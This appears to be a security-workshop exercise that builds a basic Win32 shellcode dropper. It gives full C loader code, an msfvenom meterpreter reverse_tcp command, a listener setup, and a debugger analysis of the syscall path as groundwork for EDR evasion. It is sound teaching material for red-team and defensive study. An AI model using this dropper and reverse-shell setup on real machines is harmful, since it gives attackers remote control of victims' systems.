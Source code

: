 ## Exercise 2: Win32 Dropper
In **Exercise 2** we will create our first shellcode dropper based on **high level APIs** or **Win32 APIs**. This dropper will more or less be the reference for further development into a direct syscall and indirect syscall dropper. Later in this text we call the Dropper Win32-Dropper. If you look at the figure below, you will see that we do not use direct or indirect syscalls at all. Instead we use the normal legitimate way like ``malware.exe`` -> ``Win32 APIs (kernel32.dll)`` -> ``Native APIs (ntdll.dll)`` -> ``syscall``.  
<details>
     <p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/14d3e025-71e5-4bba-bcdc-532c37f71a30">
</p>
</details>
     
## Exercise 2 tasks:
1. Download the Win32-Dropper poc from the Code section of this chapter.
2. In this case the code is already implemented in the poc. Your task is to create x64 meterpreter shellcode, copy it into the poc and compile it.
3. Create and run a staged x64 meterpreter listener using msfconsole.
4. Run your compiled .exe and check that a stable command and control channel opens. 
5. Use the Visual Studio **dumpbin** tool to analyse the Win32-Dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
6. Use **x64dbg** to debug or analyse the Win32-Dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the poc from the code section of this chapter. The technical functionality of the Win32-Dropper is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the Win32-Dropper into a Low-Level-Dropper using direct system calls. In the Win32-Dropper we use the following Win32 APIs 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject

The code works like this. First, we need to define the thread function for shellcode execution later in the code.
<details>
    
```C
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}
```
 </details> 
 

Within the main function, the variable **code** is defined, which is responsible for storing the meterpreter shellcode. The content of "code" is stored in the .text (code) section of the PE structure or, if the shellcode is larger than 255 bytes, the shellcode is stored in the .rdata section.
<details>
    
```C
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
The next code block defines the function pointer **void***, which points to the variable **exec** and stores the return address of the allocated memory using the Windows API VirtualAlloc.
<details>
    
```C
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
 </details>   


The meterpreter shellcode is then copied to the allocated memory using the Windows API **WriteProcessMemory**.
<details>

```C
// Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
```
</details>
    

Next, the Windows API **CreateThread** is used to execute the meterpreter shellcode. This is done by creating a new thread.<p align="center">
<details>
    
```C
// Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL); 
```
</details>

    
And by using the Windows API **WaitForSingleObject** we need to make sure that the shellcode thread completes its execution before the main thread exits.
<details>  
    
```C
// Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);    
```
</details>    

    
Here is the **complete code**, but you can also find it already implemented in the code poc of this chapter.
<details>
    
```C
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
In this step, we will create our meterpreter shellcode for the Win32-Dropper poc with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
**kali>**       
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>
    
The shellcode can then be copied into the Win32-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.
<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>
    

## MSF-Listener
Before we test the functionality of our Win32-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Dropper Analysis: dumpbin
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>
    
**cmd>**  
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports Win32-API.exe
```
</details>
    
<details>
    <summary>Solution</summary>   
In the case of the Win32-Dropper, you should see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are correctly imported into the Win32-Dropper from the kernel32.dll.
<p align="center">
<img width="693" alt="image" src="https://user-images.githubusercontent.com/50073731/235369396-dbad1178-e9a2-4c55-8c6a-fdc9362d864c.png">
</p>
</details>

    
## Dropper Analysis: x64dbg
The first step is to run your Win32-Dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the Win32-Dropper directly in x64dbg you need to run the assembly first.
     
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/1d7959d0-9a35-451d-be18-826f4a832737">
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls or similar are used in the Win32-Dropper. What results do you expect?
     
<details>
    <summary>Solution</summary>
Checking the imported symbols in our Win32-Dropper, we should see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are imported from kernel32.dll. So the result is the same as with dumpbin and seems to be valid.  
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/93836da7-aaf0-412d-8871-6cea88b00d83">   
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/facd43e5-6cb6-44b7-b17b-0dfd8faab28a">
</p>  
     
We use the "Follow imported address" function in the Symbols tab by right-clicking on one of the four Win32 APIs used, e.g. Virtual Alloc, and we can see that we jump to the location of kernel32.dll.
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/55b64891-6e31-4f1b-b566-30489fb41c7b">
</p>
     
In the next step we use the function Follow in Dissassembler to follow the memory address that jumps to the memory of the kernelbase.dll.  
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/fa540f58-b748-45c7-9ee0-4f55821709f7">
</p> 
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/992e3162-84cc-480b-ade9-e17d6541ba48">
</p>
     
Then we use the Follow in dissassembler function again and follow the address that calls the native function Nt* or ZwAllocateVirtualMemory from a memory location in ntdll.dll      
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/667441cb-d9ae-43d3-969e-35be8dbab5da">
</p>     
     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/456e8c76-32bc-4115-8154-61630a8e87c5">
</p>
As expected, we go the normal way via ``malware.exe`` -> ``kernel32.dll`` -> ``kernelbase.dll`` -> ``ntdll.dll`` -> ``syscall``.     
</details>     

We also want to check from which module or memory location the syscall stub of the native functions used is implemented, and also check from which module or memory location the syscall statement and return statement are executed.
     
<details>
    <summary>Solution</summary>
     The following illustration shows, that the syscall instruction and the return instruction are executed from a memory region in ntdll.dll as expected.          
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/0701e142-1dd8-4a18-91f8-bf32d6b66315">          
</p>            
</details>     


   
## Summary: Win32-Dropper
- No direct system calls at all
- Syscall execution via normal transition from high_level_dropper.exe -> kernel32.dll -> ntdll.dll -> syscall
- Win32-Dropper imports Windows APIs from kernel32.dll...
- ...then accesses or imports the native functions from ntdll.dll...
- ...and finally executes the code of the corresponding native function, including the syscall instruction.  
- If an EDR uses user mode hooking in kernel32.dll or ntdll.dll, the contents of malware.exe are redirected to the EDR's hooking.dll.

